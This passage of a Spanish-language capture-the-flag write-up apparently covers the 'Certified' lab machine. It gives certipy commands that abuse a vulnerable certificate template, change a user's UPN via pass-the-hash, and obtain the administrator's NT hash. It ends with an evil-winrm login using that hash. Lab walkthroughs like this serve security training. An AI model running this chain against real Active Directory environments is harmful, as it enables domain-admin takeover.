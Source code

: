 ![Pic]({{ '/assets/img/certified/17pic.png' | relative_url }}){: .center-image }

Ahora podemos solicitar la plantilla del certificado vulnerable.

```sh
certipy req -template "CertifiedAuthentication" -u "ca_operator" -p "pass123" -dc-ip 10.10.11.41 -ca "certified-DC01-CA"
```

![Pic]({{ '/assets/img/certified/18pic.png' | relative_url }}){: .center-image }

Antes de seguir, es importante cambiar de nuevo el UPN a otra cosa para evitar que entre en conflicto.

```sh
certipy account update -username management_svc -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator -target 10.10.11.41
```

Y una vez más, con certipy nos autenticamos con el certificado recibido para obtener el hash NT del usuario administrator.

```sh
certipy auth -pfx administrator.pfx -domain certified.htb
```

![Pic]({{ '/assets/img/certified/19.png' | relative_url }}){: .center-image }

Y nos conectamos con **evil-winrm** proporcionando el hash.

```sh
evil-winrm -i 10.10.11.41 -u administrator -H 0d5b49608bbce1751f708748f67e2d34
```

![Pic]({{ '/assets/img/certified/20pic.png' | relative_url }}){: .center-image }

